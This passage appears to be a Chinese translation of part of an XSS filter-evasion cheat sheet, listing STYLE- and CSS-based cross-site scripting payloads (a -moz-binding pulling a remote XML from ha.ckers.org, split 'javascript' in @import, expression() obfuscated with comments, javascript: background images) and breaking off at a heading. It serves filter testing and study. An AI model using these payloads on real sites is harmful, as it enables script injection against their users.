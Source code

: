 * * *

### 远程样式表4

它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL文件在页面。令人讽刺的是Netscape认为Gecko是更加安全的，因此绝大多是网站会受到这个攻击。

```
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
```

* * *

### 分隔javascript在STYLE标签

这个xss在ie浏览器中会造成无线循环

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

* * *

### STYLE属性中使用注释去分隔表达式

提出被 Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

* * *

### IMG样式的表达式

这是上面xss向量的混合体。但是它是展示了STYLE标签被分隔有多困难。同样它也会在ie下造成循环弹窗。

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

* * *

### STYLE标签（仅支持老版本的Netscape）

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

* * *

### 使用background-image的style标签

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

* * *

### 使用background的style标签
